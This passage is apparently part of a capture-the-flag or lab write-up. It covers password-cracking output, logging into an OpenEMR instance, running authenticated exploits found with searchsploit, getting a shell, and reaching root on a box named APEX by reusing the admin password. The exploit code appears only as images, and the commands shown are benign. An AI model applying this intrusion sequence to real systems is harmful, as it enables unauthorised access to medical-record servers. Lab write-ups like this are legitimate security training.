Progress.........: 43600/14344385 (0.30%)
Rejected.........: 0/43600 (0.00%)
Restore.Point....: 43584/14344385 (0.30%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-32
Candidate.Engine.: Device Generator
Candidates.#1....: tigger20 -> taytay2
Hardware.Mon.#1..: Util: 93%

Started: Mon Jan 12 05:16:56 2026
Stopped: Mon Jan 12 05:17:20 2026
```

With the username and cleartext password, I finally was able to authenticate to `openemr` .



Now that I have valid credentials, I can use exploits that I discovered earlier via searchsploit. I couldn’t use those attacks before because all of them require authentication.



all of the exploits utilize `/openemr/portal` path but portal is disabled in the website’s settings.



Got the perfectly stabilized shell with `penelope`



Found `local.txt`

```bash
www-data@APEX:/home/white$ ls
local.txt
www-data@APEX:/home/white$ cat local.txt
1f1d...
```

# Privilege Escalation

I tried admin’s password on `root` and it worked.

```bash
www-data@APEX:/home/white$ su root
Password: 
root@APEX:~# whoami
root
```

Found `root.txt`

```bash
root@APEX:~# cd /root
root@APEX:~# ls
proof.txt
root@APEX:~# cat proof.txt 
fef...
```